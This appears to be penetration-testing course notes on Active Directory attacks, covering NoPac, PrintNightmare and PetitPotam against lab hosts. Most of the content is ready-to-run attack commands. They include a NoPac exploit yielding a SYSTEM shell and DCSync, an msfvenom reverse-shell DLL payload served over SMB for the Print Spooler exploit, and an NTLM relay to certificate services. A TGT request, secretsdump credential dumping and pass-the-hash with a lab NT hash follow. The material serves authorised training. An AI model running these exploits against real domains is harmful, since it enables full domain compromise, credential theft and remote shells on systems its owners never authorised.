 # Bleeding Edge Vulnerabilities
## NoPac (SamAccountName Spoofing)
This exploit path takes advantage of being able to change the SamAccountName of a computer account to that of a Domain Controller. By default, authenticated users can add up to ten computers to a domain. When doing so, we change the name of the new host to match a Domain Controller's SamAccountName. Once done, we must request Kerberos tickets causing the service to issue us tickets under the DC's name instead of the new name. When a TGS is requested, it will issue the ticket with the closest matching name. Once done, we will have access as that service and can even be provided with a SYSTEM shell on a Domain Controller.

NoPac [https://github.com/Ridter/noPac] uses many tools in Impacket to communicate with, upload a payload, and issue commands from the attack host to the target DC. Before attempting to use the exploit, we should ensure Impacket is installed and the noPac [] exploit repo is cloned to our attack host if needed. We can use these commands to do so:


we can use the scripts in the NoPac directory to check if the system is vulnerable using a scanner (scanner.py) then use the exploit (noPac.py) to gain a shell as NT AUTHORITY/SYSTEM. We can use the scanner with a standard domain user account to attempt to obtain a TGT from the target Domain Controller. If successful, this indicates the system is, in fact, vulnerable. We'll also notice the ms-DS-MachineAccountQuota number is set to 10. In some environments, an astute sysadmin may set the ms-DS-MachineAccountQuota value to 0. If this is the case, the attack will fail because our user will not have the rights to add a new machine account. Setting this to 0 can prevent quite a few AD attacks.

### Scanning for NoPac
```
$ sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```

### Running NoPac & Getting a Shell
```
$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run. We can use ls to confirm.

### Using noPac to DCSync the Built-in Administrator Account
```
$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```


## PrintNightmare
PrintNightmare is the nickname given to two vulnerabilities (CVE-2021-34527 and CVE-2021-1675) found in the Print Spooler service that runs on all Windows operating systems. Many exploits have been written based on these vulnerabilities that allow for privilege escalation and remote code execution. Using this vulnerability for local privilege escalation is covered in the Windows Privilege Escalation module, but is also important to practice within the context of Active Directory environments for gaining remote access to a host. Let's practice with one exploit that can allow us to gain a SYSTEM shell session on a Domain Controller running on a Windows Server 2019 host.

We can use rpcdump.py to see if Print System Asynchronous Protocol and Print System Remote Protocol are exposed on the target.


### Enumerating for MS-RPRN
```
$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

### Generating a DLL Payload
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

$ sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp

$ sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```

## PetitPotam (MS-EFSRPC)
PetitPotam (CVE-2021-36942) is an LSA spoofing vulnerability that was patched in August of 2021. The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the Local Security Authority Remote Protocol (LSARPC) by abusing Microsoft’s Encrypting File System Remote Protocol (MS-EFSRPC). This technique allows an unauthenticated attacker to take over a Windows domain where Active Directory Certificate Services (AD CS) is in use. In the attack, an authentication request from the targeted Domain Controller is relayed to the Certificate Authority (CA) host's Web Enrollment page and makes a Certificate Signing Request (CSR) for a new digital certificate. This certificate can then be used with a tool such as Rubeus or gettgtpkinit.py from PKINITtools to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.

```
$ sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

### Running PetitPotam.py
```
$ python3 PetitPotam.py 172.16.5.225 172.16.5.5       
```

Back in our other window, we will see a successful login request and obtain the base64 encoded certificate for the Domain Controller if the attack is successful.

### Requesting a TGT Using gettgtpkinit.py
Next, we can take this base64 certificate and use gettgtpkinit.py to request a Ticket-Granting-Ticket (TGT) for the domain controller.

```
$ python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```

### Setting the KRB5CCNAME Environment Variable
The TGT requested above was saved down to the dc01.ccache file, which we use to set the KRB5CCNAME environment variable, so our attack host uses this file for Kerberos authentication attempts.

```
$ export KRB5CCNAME=dc01.ccache
```

### Using Domain Controller TGT to DCSync
We can then use this TGT with secretsdump.py to perform a DCSYnc and retrieve one or all of the NTLM password hashes for the domain.
```
$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

### Confirming Admin Access to the Domain Controller
Finally, we could use the NT hash for the built-in Administrator account to authenticate to the Domain Controller. From here, we have complete control over the domain and could look to establish persistence, search for sensitive data, look for other misconfigurations and vulnerabilities for our report, or begin enumerating trust relationships.

```
$ crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf
```
